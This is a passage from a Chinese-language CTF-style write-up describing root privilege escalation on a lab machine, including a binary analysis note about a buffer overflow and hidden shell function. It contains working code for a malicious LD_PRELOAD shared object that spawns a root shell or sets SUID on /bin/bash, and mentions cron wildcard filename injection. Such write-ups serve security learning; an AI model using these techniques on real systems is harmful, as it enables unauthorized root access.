你好，佩德罗，正如我跟你说过的，我会通知管理员来配置环境，这样就能给你提供你所要求的权限，现在一切都已准备就绪。当你需要关于 GDB（GNU 调试器）的权限时，你就通过 root@cybersec 联系管理员告知他。和往常一样，在开启权限之前，你必须发送以下申请格式的内容：
申请人姓名：
日期：
信息：
简要说明：
```

查看一下目录下有一个分析报告

```
#pedro@cybersec:~/analisis_hallx$ cat notas_hallx.txt 

关于已发现的二进制文件 hallx 的报告笔记
二进制文件的功能
该二进制文件的主要功能是记录用户的进出情况。
已检测到的漏洞
缓冲区溢出：
从图片中可以看出，在factor2()函数中存在缓冲区溢出漏洞，因为它允许读取最多（0x80）128 个字节的数据，但缓冲区大小仅为 72 个字节，这就导致了缓冲区溢出（BOF）。
恶意函数：
在程序正常执行期间，factor1()函数从未被调用过（就像其他一些无用 / 填充函数一样）。在这个函数中，通过execve调用了一个 shell 程序（/usr/bin/bash）。
虚拟化检测和反调试功能
该二进制文件包含两个在程序开始时运行的函数 [check_virtualization()和checkDebugger()]，这些函数负责检测程序是否在虚拟化环境中运行，同时也用于检测是否正在对其进行调试。似乎在没有权限的情况下不允许进行调试（需要在虚拟机之外对此进行测试）。
```

先发送以下命令获取权限

```
# 发送权限申请邮件（包含案件编号）
echo -e "Nombre del solicitante: Pedro\nFecha: $(date '+%d/%m/%Y')\nMensaje: Solicitud de privilegios de depuracion\nBreve descripcion: Analisis de puerta trasera - Caso 000-0923" | mail -s "Solicitud GDB - Caso 000-0923" -a "From: pedro@cybersec" -a "Content-Type: text/plain; charset=ANSI_X3.4-1968" root@cybersec
```



这里先准备一个恶意的**so**文件

```
// gcc -shared -fPIC evil.c -o evil.so
#include <stdlib.h>
__attribute__((constructor)) void init() {
    system("/bin/bash -p");
}
```

然后运行

```
pedro@cybersec:/var/mail$ sudo -u root /usr/local/bin/secure_gdb /home/pedro/hallx 

(gdb) set environment LD_PRELOAD=/home/pedro/evil.so
(gdb) run
```

然后就能进入到**root**的**shell**



这里我的**so**文件中命令给错了，导致一直卡在**root**的**bash**里面，退不出去

因此改成其他的提权语句就好了，不必开启一个**bash**

```
#include <stdlib.h>
__attribute__((constructor)) void init() {
    system("chmod u+s /bin/bash");
}
```

再次执行之后，可以成功设置**SUID**，另外一边直接关掉终端就好了



## Summary

`User`：**API**接口枚举，用户名爆破，得到域名，下载后进行逆向分析，根据AES解密得到明文，输入后得到用户的**ssh**密码。通过发送邮件可以获得到**robert**的**sudo**命令权限。根据**pedro**的定时任务中的通配符，可以写入恶意文件名，让其当作参数处理，得到**pedro**的权限。

`Root`：设置恶意的**LD\_PRELOAD**环境变量，让其执行的时候引入恶意代码，设置**bash**的**SUID**，成功提权。

终于写完了，长舒一口气~~~~
